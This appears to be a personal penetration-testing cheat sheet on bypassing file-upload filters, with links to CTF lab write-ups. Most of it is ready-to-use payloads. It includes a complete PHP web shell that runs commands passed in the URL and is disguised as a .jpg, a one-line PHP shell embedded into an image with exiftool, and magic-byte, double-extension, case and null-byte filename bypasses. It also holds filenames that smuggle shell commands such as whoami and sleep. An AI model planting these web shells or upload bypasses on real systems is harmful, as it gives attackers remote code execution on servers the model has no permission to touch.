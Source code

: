 ```yaml
---
categories: [Cheatsheet, Web]
tags: [cheatsheet/web, exploit/file-upload-bypass]
img_path: /Cheatsheet/Upload bypass/images
---
```



# Magic Bytes; header
![](Pasted%20image%2020220415215405.png)
- if uploaded content is being scanned, sometimes the check can be fooled by putting this header item at the top of shellcode:
	```
	GIF89a;
	```
- Some Examples:
	- [[PwnLab#Port 80]]

# Append the allowed extension
- If only `.png` allowed, try appending `.png` at the end
- Try both ways
	```
	.php.png
	.png.php
	```
	- Some Examples:
		- [[fristileaks#Port 80]]

# Other PHP Extensions
```
php1
php2
php3
php4
php5
phptml
```
- Some Examples
	- [[RootMe#key 1]]
	- vulnversity writeup

# Case Sensitive Extensions
```
shell.pHP
shell.PhP
shell.pHP4
shell.PhPtml
shell.phP5
```


# Insert .jpg webshell
- Requires LFI to work
	```
	cat > bingchilling.jpg <<EOF
	<html>
	<body>
	<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
	<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
	<input type="SUBMIT" value="Execute">
	</form>
	<pre>
	<?php
		if(isset($_GET['cmd']))
		{
			system($_GET['cmd']);
		}
	?>
	</pre>
	</body>
	</html>
	EOF
	```
	```
	<?php system($_GET['cmd']); ?>  //shell.php
	exiftool "-comment<=shell.php" malicious.png
	strings malicious.png | grep system
	```
- Some Examples:
	- [[port 8001|hackerOne - Easy Port 8001]]

# Nullbyte
```
shell.jpeg%00.php
shell.png%00.php
```

# Trailing (Windows)
- Adding `.` to the end
	```
	shell.aspx.
	shell.php.
	shell.exe.
	```
	
# Exiftool:
- If web application is accepting uploaded files which are passed to exiftool, can, in turn lead to RCE.
- https://hackerone.com/reports/1154542

# RCE via filename
| # | File Name |Payload Outcome| If Vulnerable|
| --- | --- | --- | ---  |
| 1 | `a$(whoami)z.jpg` | `$(whoami)`  	| `a[CURRENT USER]z.jpg`|
| 2 | `a`whoami`z.jpg` | ``whoami`` |`a[CURRENT USER]z.jpg`|
| 3 | `a;sleep 30;z.jpg` | `;sleep 30;`	 |The application will take 30+ seconds to respond|


# Use burpsuite to find bypass
![[uploadBypass php extension.png]]
![[uploadBypass payloads.png]]
![[uploadBypass position.png|400]]
![[uploadBypass Results.png|400]]

# Sources:
https://www.onsecurity.io/blog/file-upload-checklist/

